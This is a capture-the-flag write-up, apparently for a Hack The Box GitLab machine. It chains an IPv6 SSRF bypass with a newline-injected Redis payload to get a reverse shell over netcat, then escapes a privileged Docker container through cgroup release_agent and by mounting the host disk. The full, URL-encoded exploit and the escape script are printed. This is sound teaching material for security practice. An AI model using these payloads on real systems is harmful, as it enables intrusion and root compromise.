# <p style="color:RED" >Information Gathering </p>

---

## <p style="color:Green">Nmap scan </p> 



We only have two ports open

- 22/SSH : OpenSSH 8.2p1 Ubuntu 4

- 5080/http : nginx


## <p style="color:Green">Web Server</p> 





We get a simple Gitlab sign in page. First let's make an account




Now let's look for a version or anything that could help us.



We get the gitlab's version and an interesting `update asap` highlighted in red, Which means it probably vulnerable




And yeah..! we were right

> Most of the POCs and github repositories were published after the box being launched, so we we won't be using them and we'll do everything manually and get our hands dirty first. 


# <p style="color:RED" >Foothold & User Flag (Intended way)</p>

---

Looking at the latest commits, we can understand what we're going to exploit





---> So basically, we're going to bypass the SSRF protection using special IPv6 Addresses as we in the previous picture

```
https://[0:0:0:0:0:ffff:127.0.0.1]/foo/foo.git
https://[::ffff:127.0.0.1]/foo/foo.git
etc..
```

Going back to the commit history, we can see another interesting vulnerability




This vulnerability will come handy later on by adding newlines to our payload and that's by chaining both of these vulnerabilities in order to get an RCE.

So now we understood what will be causing the RCE, we can dive in and get our shell!

We'll be using the payload mentioned here: https://hackerone.com/reports/299473 


```

 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc <ip> 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec

```

Now let's chain both the two previous vulnerabilities.

> Before throwing a reverse shell, ping your machine first to confirm that we have code exec on the machine. for the sake of the writeup i'll be getting directly a reverse shell

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc 10.10.14.17 4444 -e /bin/bash \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/elleuch.git
```
We URL encode our payload

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/A%0A%20multi%0A%20sadd%20resque%3Agitlab%3Aqueues%20system_hook_push%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem_hook_push%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open(%5C%27%7Cnc%2010.10.14.17%204444%20-e%20%2Fbin%2Fbash%20%5C%27).read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0A%20exec%0A%20exec%0A/elleuch.git

```

So now we have a ready-to-use payload, let's back to the web page to see where we're gonna throw it



And yeah! We can import projects by URLs, Exactly what we needed

Let's use our payload and set a listener and see if we get a shell



And we're on the box! 

Let's get a proper shell 



And grab the user.txt



---

# <p style="color:RED">User Flag (Unintended way)</p>

---

When i first rooted the box, it seemed to be also vulnerable to 

`Arbitrary file read via the UploadsRewriter when moving an issue` 


That we already done in [Laboratory Writeup](https://mohamed-elleuch.me/writeups/htb-laboratory/)

> I am not sure if the creator patched it or no, but  you can still try it !

- Step1 : Get /etc/passwd
```


```

- Step2 : Get /home/dude/user.txt

```


```
---

# <p style="color:RED">Root PrivEsc (Method 1 )</p>

---

After enumerating a bit, we can find an interesting file




Which contains a password




And it turns out to be the password the root of this docker container




Now our goal is to escape it ! 

Let's check the `/opt/backup/docker-compose.yml`



It seems like we're in a privileged docker!

> An interesting blog post to check ! https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/


```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "echo 'public_rsa' > /root/.ssh/authorized_keys " >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```


And voilà we're root! 

---

# <p style="color:RED">Root PrivEsc (Method 2)</p>

---

Way simpler than first one!

First let's check mounts

```
df -aTh   # Or mount -l
```



let's try to mount `/dev/sda2`


And yeaah! we can access the box's file system

Let's check if we can grab the root flag and it's ssh private key




Now let's ssh into root with his key





## Thanks for reading hope you enjoyed it!


